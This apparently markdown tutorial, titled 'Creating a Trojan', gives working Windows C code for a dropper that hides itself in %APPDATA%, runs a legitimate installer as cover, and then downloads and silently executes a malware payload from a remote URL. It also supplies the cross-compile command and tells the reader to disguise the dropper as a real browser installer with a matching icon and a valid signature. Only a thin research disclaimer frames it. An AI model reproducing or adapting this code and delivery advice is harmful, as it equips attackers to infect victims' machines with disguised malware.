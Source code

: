 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

```
TCHAR current_dir[MAX_PATH]

TCHAR current_file[MAX_PATH]

TCHAR new_dir[MAX_PATH]
```
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

```
GetCurrentDirectory(MAX_PATH, current_dir);

strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);

GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);

strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);

int mresult = MoveFileA(current_file, new_dir);
```

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

```
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);

if (filedl == S_OK) {

	HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);

}

else {
	
	printf("[!] Error with download\n");

}
```

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

```
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);

strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
```

1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

```
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);

if (maldl == S_OK) {

	printf("[+] Successfully downloaded main malware\n");
    
    	HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    
    	exit(0);
}

else {

	printf("[!] Error downloading main malware\n");

}
```

This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

## Cross-Compilation
`x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original. You can also sign the executable as well with a valid certificate to make the dropper less suspicious.
